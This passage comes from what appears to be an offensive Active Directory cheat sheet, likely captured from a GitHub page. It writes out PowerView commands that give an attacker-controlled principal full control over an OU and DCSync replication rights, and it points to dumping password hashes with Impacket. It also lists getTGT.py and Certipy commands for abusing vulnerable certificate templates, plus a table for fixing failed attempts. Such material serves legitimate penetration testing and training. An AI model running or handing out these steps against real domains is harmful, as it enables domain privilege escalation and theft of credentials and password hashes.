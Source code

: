 
### 🔁 b. Group Control / Privilege Escalation
If an attacker controls a group that grants full control over an OU or user:

```bash
-q "Add-DomainObjectAcl -TargetIdentity 'OU=Resource,DC=example,DC=com' \
  -PrincipalIdentity 'IT Support' -Rights fullcontrol"
```

Now any member of **IT Support** can enable or reset accounts within that OU.

---

### 💣 c. DCSync Rights (replication privilege)

Grant replication rights needed for DCSync with `dcsync` flag:

```bash
-q "Add-DomainObjectAcl -TargetIdentity 'DC=example,DC=com' \
  -PrincipalIdentity attacker -Rights dcsync"
```

Then use Impacket `secretsdump.py` to retrieve password hashes.

---

## 🧾 8. TGT/TGS Integration Example  

Use Impacket when PowerView grants the necessary permission:

```bash
# Obtain a TGT after setting a password
getTGT.py -dc-ip 10.10.10.10 example.com/user1:Password123!
# Use Kerberos ticket for further LDAP/SMB access
export KRB5CCNAME=$(pwd)/user1.ccache
```

---

## 🪪 9. Certificate Abuse Integration (Certipy)

Once you identify vulnerable certificate templates:

```bash
certipy-ad find -k -vulnerable -dc-ip 10.10.10.10
certipy-ad req -k -upn user1@example.com -template VulnTemplate -dc-ip 10.10.10.10
certipy-ad auth -pfx user1.pfx -username user1 -domain example.com -dc-ip 10.10.10.10
```

---

## 🧰 10. Troubleshooting / Quality of Life

| Common Issue | Fix |
|---------------|-----|
| _insufficientAccessRights_ on an OU | Use inheritance or modify higher container ACL |
| _KDC_ERR_PREAUTH_FAILED_ | Password or hash is outdated; reset account again |
| _No output_ | Add `--debug` and verify Kerberos TGT validity |
| _Account not found_ | Confirm DN syntax and OU path in `TargetIdentity` |

---